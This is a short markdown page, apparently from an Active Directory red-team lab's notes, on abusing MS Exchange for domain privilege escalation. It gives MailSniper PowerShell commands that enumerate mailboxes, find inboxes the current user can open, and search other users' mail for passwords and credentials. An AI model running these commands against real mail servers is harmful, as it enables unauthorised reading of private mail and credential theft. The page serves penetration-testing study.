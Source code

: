 # 4 MS-Exchanges

## Domain Privilege Escalation \[ MS Exchange ]

## Methodology/Steps

> 1. Load in [MailSniper](https://github.com/dafthack/MailSniper) using powershell
> 2. Enumerate and pull all the emails
> 3. Save all the emails in a file called emails.txt
> 4. Now check if you have access to any other emailboxes
> 5. Check for data inside the email address where the body contains data like password or creds

***

## MailSniper

### 1. Enumerate all mailboxes

```powershell
Get-GlobalAddressList -ExchHostname us-exchange -verbose -UserName us\studentuser1 -password <password> -
```

### 2. Enumerate all mailboxes we have access to (means current user)

```powershell
Invoke-OpenInboxFinder -EmailList C:\AD\Tools\emails.txt -ExchHostname us-exchange -verbose 
```

### 3. Once we have identified mailboxes where we can read emails, use the following to read emails. The below command looks for terms like pass, creds, credentials from top 100 emails of :

```powershell
Invoke-SelfSearch -Mailbox pwnadmin@techcorp.local -ExchHostname us-exchange -OutputCsv .\mail.csv
```

> Alternatively, using exchange manager (Organization Management) or exchange user (Exchange Trusted Subsystem) privileges also allows us to read the emails!
